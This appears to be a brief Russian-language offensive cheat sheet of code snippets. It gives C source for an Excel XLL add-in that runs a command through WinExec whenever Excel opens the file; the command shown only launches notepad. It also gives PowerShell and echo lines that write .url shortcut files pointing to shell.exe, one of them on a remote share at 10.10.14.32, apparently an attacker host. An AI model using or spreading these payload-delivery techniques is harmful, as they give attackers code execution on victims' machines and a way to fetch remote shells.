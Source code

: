 # Файл для запуска в exel без макроса

https://gist.github.com/projectboot/a0308688abcb1f318a0b00b33698e782

	// Compile with: cl.exe notepadXLL.c /LD /o notepad.xll or x86_64-w64-mingw32-gcc xll.c -shared -o test.xll
	#include <Windows.h>

	__declspec(dllexport) void __cdecl xlAutoOpen(void); 

	void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("cmd.exe /c notepad.exe", 1);
	}

	BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
					 )
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}




# Создание URL ярлыка
	--->`n - новая строка

	$shortcut = "[InternetShortcut]`nURL=c:\programdata\shell.exe"
	Set-Content -Path "c:\inetpub\testing\test.url" -value $shortcut


	cd C:\inetpub\testing
	echo "[internetshortcut]`nurl=\\10.10.14.32\exploit\shell.exe" > shell.url
